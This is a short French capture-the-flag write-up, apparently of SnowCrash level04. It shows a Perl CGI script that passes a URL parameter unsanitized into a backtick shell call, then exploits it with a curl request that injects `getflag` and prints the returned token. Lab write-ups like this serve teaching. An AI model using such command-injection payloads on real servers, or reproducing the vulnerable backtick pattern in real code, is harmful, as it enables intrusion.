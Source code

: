 # Explication

On trouve un fichier `level04.pl`, l'execution de donne rien mais on peu le lire:
```perl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On peu supporser que c'est le code qui va s'executer si on va au `localhost:4747` comme indiqué en haut du fichier  
On peu aussi voir qu'il attend un parametre `x` dans l'url 

on va donc tester avec `curl`:
```
apouchet$ curl 192.168.253.129:4747?x=test
test
```

On essaye d'envoyer `getflag` sous forme de commande 
```
apouchet$ curl 192.168.253.129:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
